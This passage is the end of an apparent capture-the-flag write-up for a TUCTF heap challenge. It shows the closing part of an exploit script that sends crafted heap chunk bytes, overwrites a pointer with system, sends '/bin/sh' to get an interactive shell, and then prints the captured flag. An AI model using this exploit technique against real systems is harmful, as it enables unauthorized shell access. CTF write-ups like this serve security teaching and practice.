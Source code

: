  ```
    ################################

    give(pc, 32, 'LLLL')
    give(pc, 32, 'LLLL')

    ################################

    rethink(pc, 18, 'BBBBBB\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x90')
    take(pc, 19)
    give(pc, 32, '\xff\xff\x00\x00\x00\x00\x00\x00\x98\x30\x60\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x10\x1c\x40\x00\x00\x00\x00\x00')
    pc.recvuntil(':')


    rethink(pc, 18, system)
    pc.sendline('/bin/sh\x00')
    
    pc.interactive()


if __name__ == '__main__':
    main()
```


Flag is:
> TUCTF{0n3_Byt3_0v3rwr1t3_Ac0lyt3}


<p align="center">
  <img src="screens/heap.png">
</p>
